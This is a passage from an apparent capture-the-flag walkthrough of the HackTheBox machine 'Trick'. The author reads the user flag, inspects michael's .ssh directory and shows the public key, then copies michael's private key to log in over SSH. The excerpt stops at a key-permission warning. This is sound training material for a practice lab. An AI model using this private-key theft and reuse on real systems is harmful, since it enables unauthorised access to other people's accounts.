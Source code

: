 
I can also access `user.txt`:

    
    
    michael@trick:~$ cat user.txt
    520a7434************************
    

#### SSH

There’s also a SSH key pair in michael’s `.ssh` directory:

    
    
    michael@trick:~/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub
    

`id_rsa` is the private key, and `id_rsa.pub` is the public key. The
`authorized_keys` file is also important. This is the default file that `sshd`
(the SSH server) looks at for a list of public keys that can authenticate as
michael.

The `id_rsa.pub` is in `authorized_keys`:

    
    
    michael@trick:~/.ssh$ cat id_rsa.pub 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick
    michael@trick:~/.ssh$ cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAj1gsVEpPokVNKo+3b/7uaCDkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizEhkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1LjnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryx michael@trick
    

With access to the private key with the same name, I can use this to
authenticate to Trick as michael.

I’ll copy the contents of the private key and paste them into a file on my
system. Now I can give `ssh` the `-i` flag to point to that file when
authenticating:

    
    
    oxdf@hacky$ ssh -i ~/keys/trick-michael michael@trick.htb
    Warning: Permanently added 'trick.htb' (ECDSA) to the list of known hosts.
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    @         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
    Permissions 0664 for '/home/oxdf/keys/trick-michael' are too open.
    It is required that your private key files are NOT accessible by others.
    This private key will be ignored.
    Load key "/home/oxdf/keys/trick-michael": bad permissions
    michael@trick.htb's password:
    
